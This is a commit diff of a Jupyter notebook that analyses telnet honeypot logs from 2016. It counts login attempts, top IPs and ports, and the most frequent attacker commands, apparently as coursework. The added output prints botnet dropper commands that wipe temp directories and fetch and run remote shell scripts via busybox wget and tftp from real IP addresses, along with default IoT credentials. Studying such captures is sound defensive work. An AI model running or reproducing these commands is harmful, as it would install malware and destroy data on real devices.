

Before and after one commit to kahraman11/EOS2019, a Jupyter notebook: Block 2/Block 2.ipynb, the cells around one changed output. Cells and saved outputs as stored; diff of their text form; code cells hidden in the pictures; blank space fills up the shorter version.

```diff
--- a/Block 2/Block 2.ipynb
+++ b/Block 2/Block 2.ipynb
@@ -42,55 +111,34 @@ def top_5_src_port(data):
 # %%
 data = read_data(files[0])
 print("Login attempts", login_attempts(data))
-print("Top 5 src IPs\n", top_5_src_ip(data))
-print("Top 5 src ports\n", top_5_src_port(data))
-print("Top 5 dest IPs\n", top_5_dest_ip(data))
-print("Top 5 dest ports\n", top_5_dest_port(data))
+print("Top 5 src IPs\n", src_ip_counts(data).head())
+print("Top 5 src ports\n", src_port_counts(data).head())
+print("Top 5 dest IPs\n", dest_ip_counts(data).head())
+print("Top 5 dest ports\n", dest_port_counts(data).head())
+print(login_counts(data).head())
+print(command_counts(data).head())
+data.head()
 # %% [output]
 Login attempts 54857
 Top 5 src IPs
- 115.177.11.215    18825
-91.234.124.23       129
-61.32.10.101        129
-91.103.29.251       129
-182.180.84.89       129
+ 115.177.11.215     18825
+182.180.84.89        129
+186.124.144.182      129
+91.234.124.23        129
+91.103.29.251        129
 Name: Src IP, dtype: int64
 Top 5 src ports
  41089    8
 40918    8
 44330    7
-... (9 lines left out)
-Name: Dest IP, dtype: int64
-Top 5 dest ports
- 23    54857
-Name: Dest Port, dtype: int64
+... (21 lines left out)
+cd /tmp || cd /var/run || cd /dev/shm || cd /mnt || cd /var;rm -f *;busybox wget http://5.196.199.225/bin.sh;sh bin.sh;busybox tftp -r bin2.sh -g 5.196.199.225;sh bin2.sh;busybox tftp 5.196.199.225 -c ...
+cd /tmp || cd /var/run || cd /dev/shm || cd /mnt || cd /var;rm -f *;busybox wget http://198.12.148.11/bin.sh;sh bin.sh;busybox tftp -r bin2.sh -g 198.12.148.11;sh bin2.sh;busybox tftp 198.12.148.11 -c ...
+root                                                                                                                                                                                                     ...
+dtype: int64
+|  | Timestamp | Src IP | Src Port | Dest IP | Dest Port | Commandlist | processed-cl |
+| 0 | 2016-07-01 06:59:05 | 115.177.11.215 | 43225 | 133.34.157.181 | 23 | ['root', 'xc3511', 'cat $SHELL', ... | [root, xc3511, cat $SHELL, root, ... |
+| 1 | 2016-07-02 06:10:27 | 220.134.245.30 | 53970 | 133.34.157.165 | 23 | ['root', 'xc3511', 'cat $SHELL'] | [root, xc3511, cat $SHELL] |
+| 2 | 2016-07-01 07:09:43 | 218.77.202.162 | 44086 | 133.34.157.150 | 23 | ['root', 'root', 'sh', 'cd /tmp |... | [root, root, sh, cd /tmp || cd /v... |
+| 3 | 2016-07-01 21:32:02 | 14.145.251.40 | 60801 | 133.34.157.126 | 23 | ['root', 'root', 'sh', 'shell', '... | [root, root, sh, shell, cd /tmp |... |
+| 4 | 2016-07-01 16:06:00 | 221.154.68.198 | 51411 | 133.34.157.82 | 23 | ['root', 'root', 'sh', 'shell', '... | [root, root, sh, shell, enable, U... |
-# %%
-ys = []
-for f in files:
-    print("Reading file:", f)
-    data = read_data(f)
-    ys.append(login_attempts(data))
-    print("Login attempts", ys[-1])
-#     print("Top 5 src IPs", top_5_src_ip(data))
-#     print("Top 5 src ports", top_5_src_port(data))
-#     print("Top 5 dest IPs", top_5_dest_ip(data))
-#     print("Top 5 dest ports", top_5_dest_port(data))
-# %% [output]
-Reading file: ./data/cmds_sequence_2016-07-01.csv
-Login attempts 54857
-Reading file: ./data/cmds_sequence_2016-07-02.csv
-Login attempts 56912
-Reading file: ./data/cmds_sequence_2016-07-03.csv
-Login attempts 54880
-Reading file: ./data/cmds_sequence_2016-07-04.csv
-Login attempts 57246
-Reading file: ./data/cmds_sequence_2016-07-05.csv
-Login attempts 57368
-Reading file: ./data/cmds_sequence_2016-07-06.csv
-Login attempts 46448
-Reading file: ./data/cmds_sequence_2016-07-07.csv
-... (77 lines left out)
-Reading file: ./data/cmds_sequence_2016-09-12.csv
-Login attempts 45153
-Reading file: ./data/cmds_sequence_2016-09-13.csv
-Login attempts 40130
```
Also changed, not shown: parts of 5 cells of this notebook.
